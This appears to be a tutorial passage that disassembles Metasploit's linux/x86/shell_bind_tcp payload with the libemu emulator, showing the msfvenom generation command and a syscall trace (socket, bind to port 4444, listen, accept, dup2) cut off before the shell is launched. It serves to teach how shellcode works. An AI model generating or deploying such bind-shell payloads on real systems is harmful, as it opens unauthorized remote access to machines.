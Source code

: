 
### Examining a Bind TCP shell
Before trying to write a bind TCP shell in assembly, it can be useful to disassemble an existing payload and understand all of the components at play.

Libemu is a fantastic emulator that can help with running and disassembling shellcode in to meaningful segments and instructions.

The example shellcode below is the `linux/x86/shell_bind_tcp` payload part of `msfvenom`.

~~~ c
skawa@ubuntu:~/libemu/tools/sctest$ msfvenom -p linux/x86/shell_bind_tcp -f raw -a x86 --platform linux | ./sctest -vvv -S -s 100000
verbose = 3

...
<snippet>
...

int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 =>
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
) =  0;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 =>
         none;
     int addrlen = 0x00000010 =>
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;

...
<snippet>
...

int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
~~~